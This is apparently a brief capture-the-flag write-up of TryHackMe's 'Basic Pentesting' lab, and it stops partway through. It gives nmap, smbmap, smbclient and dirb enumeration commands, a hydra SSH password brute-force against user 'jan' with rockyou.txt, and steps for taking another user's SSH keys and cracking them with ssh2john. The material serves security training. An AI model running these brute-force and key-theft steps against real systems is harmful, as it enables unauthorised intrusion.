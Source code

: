 # Basic Pentesting box writeup from tryhackme

## Step 1 : Nmap scan 
nmap -sC -sV -oN scan1 -vv 10.10.180.237

![Screenshot at 2021-07-07 13-56-35](https://user-images.githubusercontent.com/12968503/124764735-2d367c80-df2d-11eb-9e2c-a4d3bcb96cf7.png)

![image](https://user-images.githubusercontent.com/12968503/124765439-ded5ad80-df2d-11eb-936c-aab84e9d6d1d.png)

![image](https://user-images.githubusercontent.com/12968503/124765613-0c225b80-df2e-11eb-84fa-bb614ba38390.png)

![image](https://user-images.githubusercontent.com/12968503/124765842-4a1f7f80-df2e-11eb-9ef8-a465421284b1.png)

![image](https://user-images.githubusercontent.com/12968503/124766185-966abf80-df2e-11eb-88ad-da200a37722b.png)

![image](https://user-images.githubusercontent.com/12968503/124766382-c619c780-df2e-11eb-9bca-dcae3e5f1b61.png)

![image](https://user-images.githubusercontent.com/12968503/124766503-e3e72c80-df2e-11eb-8e1f-3930269d2e76.png)

## Step 2:  SMB Enum
_./smbmap.py -H 10.10.180.237_  

![image](https://user-images.githubusercontent.com/12968503/124768569-af747000-df30-11eb-9c89-b83528b1e707.png)

_smbclient -L 10.10.180.237_  

![image](https://user-images.githubusercontent.com/12968503/124768765-daf75a80-df30-11eb-82dd-f598d8e4f15d.png)

_smbclient //10.10.180.237/Anonymous_  

![image](https://user-images.githubusercontent.com/12968503/124768951-fd897380-df30-11eb-9f9a-ae2e89bcf70e.png)

Found a staff.txt on the Anon share

![image](https://user-images.githubusercontent.com/12968503/124767676-eeee8c80-df2f-11eb-83d0-47018270a5f2.png)

Known users: Kay and Jan

## Step 3: Web Enum

![image](https://user-images.githubusercontent.com/12968503/124769381-5527df00-df31-11eb-81e6-8537f3f30421.png)

### Time to dirb

_dirb http://10.10.180.237_

![image](https://user-images.githubusercontent.com/12968503/124769728-9ddf9800-df31-11eb-9a3b-5a8474773052.png)

Found development page

![image](https://user-images.githubusercontent.com/12968503/124769966-d7b09e80-df31-11eb-8ddd-f167c59e37a0.png)

Dev.txt

![image](https://user-images.githubusercontent.com/12968503/124770061-eb5c0500-df31-11eb-9d69-dd227954dbb4.png)

J.txt

![image](https://user-images.githubusercontent.com/12968503/124770226-13e3ff00-df32-11eb-9e19-116c9918f3e3.png)

Jan has a weak password?

## Step 3: Cracking Jan's password

_hydra -t 4 -l jan -P /usr/share/wordlists/rockyou.txt -vV 10.10.180.237 ssh_

## Step 4: Login to SSH as Jan

Look in kay's directory for the ssh keys and grab them.

Can't use them to log in yet because they have a passphrase, so use ssh2john



